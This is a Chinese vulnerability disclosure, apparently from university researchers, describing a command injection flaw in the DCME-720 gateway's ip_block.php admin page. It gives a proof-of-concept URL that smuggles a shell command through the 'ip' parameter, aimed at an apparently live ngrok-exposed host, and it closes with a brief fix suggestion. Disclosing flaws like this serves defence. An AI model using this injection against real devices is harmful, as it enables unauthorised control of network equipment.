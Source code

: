 ```yaml
---
title: DCME-720
tags: 二进制
categories: 物联网
toc_number: true
date: 2025/8/4 11:20:53 
---
```






## 提交者：林淦 罗熙

## 提交者单位：广州大学

## 漏洞概述

DCME-720多核出口网关采用多核高性能处理器，结合专用ASIC交换芯片，针对大容量用户数、多流量、多业务种类的业务需求而推出的新一代高性能互联网出口网关。

 

其web管理后台存在命令执行漏洞，攻击者可以利用该系列漏洞在设备上执行任意代码以及控制设备。

固件下载地址：https://www.dcnetworks.com.cn/ruanjian.html?title=dcme-720

 

 

## 代码审计

代码位置在设备系统中/usr/local/www/function/audit/newstatistics/ip_block.php

 

![](img/1.png)

/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;[拼接命令];

 

 

 

 

 

## 验证

登录web管理后台，访问漏洞所在url：

http://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/ip_block.php

![](img/2.png)

构造payload：

?action=save&switch=1&ip=;echo 123 > 1.txt;

创建txt文件并写入数字

 

poc如下：
 https://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;echo%20123%20%3E%201.txt;

执行(显示修改失败但已命令执行成功)

![](img/3.png)

访问1.txt文件，发现创建并且写入成功

![](img/4.png)

 

 

## 修复建议

修改web后端php代码，对相关参数进行控制或过滤

 